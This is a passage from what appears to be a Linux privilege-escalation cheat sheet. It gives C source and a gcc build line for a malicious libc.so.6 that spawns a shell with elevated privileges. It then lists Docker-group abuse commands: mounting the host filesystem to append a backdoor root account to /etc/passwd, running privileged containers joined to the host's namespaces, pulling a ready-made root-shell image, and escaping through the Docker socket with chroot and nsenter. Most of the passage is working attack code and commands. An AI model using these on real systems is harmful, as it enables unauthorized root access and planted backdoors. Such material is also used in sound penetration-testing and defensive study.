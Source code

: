 Then create an evil library in `/var/tmp` with `gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic exploit.c -o libc.so.6`

    #include<stdlib.h>
    #define SHELL "/bin/sh"
    
    int __libc_start_main(int (*main) (int, char **, char **), int argc, char ** ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end))
    {
     char *file = SHELL;
     char *argv[] = {SHELL,0};
     setresuid(geteuid(),geteuid(), geteuid());
     execve(file,argv,0);
    }

## Groups

### Docker

Mount the filesystem in a bash container, allowing you to edit the `/etc/passwd` as root, then add a backdoor account `toor:password`.

    $> docker run -it --rm -v $PWD:/mnt bash
    $> echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd

Almost similar but you will also see all processes running on the host and be connected to the same NICs.

    docker run --rm -it --pid=host --net=host --privileged -v /:/host ubuntu bash

Or use the following docker image from [chrisfosterelli](https://hub.docker.com/r/chrisfosterelli/rootplease/) to spawn a root shell

    docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
    latest: Pulling from chrisfosterelli/rootplease
    2de59b831a23: Pull complete 
    354c3661655e: Pull complete 
    91930878a2d7: Pull complete 
    a3ed95caeb02: Pull complete 
    489b110c54dc: Pull complete 
    Digest: sha256:07f8453356eb965731dd400e056504084f25705921df25e78b68ce3908ce52c0
    Status: Downloaded newer image for chrisfosterelli/rootplease:latest
    
    You should now have a root shell on the host OS
    Press Ctrl-D to exit the docker instance / shell
    
    sh-5.0# id
    uid=0(root) gid=0(root) groups=0(root)

More docker privilege escalation using the Docker Socket.

    sudo docker -H unix:///google/host/var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash
    sudo docker -H unix:///google/host/var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
